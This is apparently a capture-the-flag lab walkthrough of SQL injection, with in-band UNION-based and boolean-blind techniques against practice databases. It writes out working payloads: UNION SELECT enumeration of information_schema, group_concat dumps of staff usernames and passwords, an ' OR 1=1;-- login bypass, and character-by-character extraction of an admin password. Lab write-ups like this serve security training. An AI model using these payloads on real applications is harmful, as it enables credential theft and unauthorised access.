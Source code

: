 
## *Task 1*
>	- Structured Query Language
## *Task 2*
>	- DBMS
>	- Table
## *Task 3*
>	- SELECT
>	- UNION
>	- INSERT
## *Task 4*
>	- ;
## *In-Band SQLi*
>	- Using `'` to verify SQLi vulnerability.![](sqli-detected.png)
>	- Getting number of columns using `UNION SELECT NULL` and adding nulls till the there is no error.![](union-cols-1.png)![](union-cols-2.png)
>	- Changing the id to a non existent article and then getting the database name using `UNION SELECT NULL,NULL,database()`.
>	- ![](db-name.png)
>	- Getting the table names using `UNION SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.![](table-names.png)
>	- Get column names from staff_users table using `UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`.![](staff-col-names.png)
>	- Get usernames and passwords using `UNION SELECT NULL,NULL,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`.![](staff-creds.png)
>	- Answer the question and get the flag.![](flag-1.png)
## *Blind SQLi*
>	- Using `' OR 1=1;--` in the password field to bypass the login.![](flag-2.png)
>	- Using `admin123' UNION SELECT NULL;--` to get the column names.![](bool-1.png)![](bool-2.png)
>	- Using `'UNION SELECT 1,2,3 WHERE database() LIKE 'a%';--` to get the database name.![](bool-3.png)
>	- Change the value till a true occurs.![](bool-4.png)
>	- Keep adding characters till we get the entire name.![](bool-5.png)
>	- Now use the found name to enumerate the tables.
>	- Using `' UNION SELECT 1,2,3 FROM infromation_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'u%';--`.![](bool-6.png)
>	- Again keep adding characters till the table name is found.![](bool-7.png)
>	- Confirm the table name using `' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name = 'users';--`.![](bool-8.png)
>	- Now, enumerate the column names in the users table using `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%';--`.
>	- Column `id` is found.![](bool-9.png)
>	- Now remove that found column name `' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name LIKE 'a%' AND column_name != 'id';--`.
>	- Column username is found.![](bool-10.png)
>	- Column password is found.![](bool-11.png)
>	- Now, enumerate the users table for the username admin using `' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--`.![](bool-12.png)
>	- Admin user is found.![](bool-13.png)
>	- Enumerating for his password using `' UNION SELECT 1,2,3 FROM users WHERE username = 'admin' AND password LIKE 'a%';--`.![](bool-14.png)
>	- Confirming the password.![](bool-15.png)
>	- Using the found credentials to get the flag.![](flag-3.png)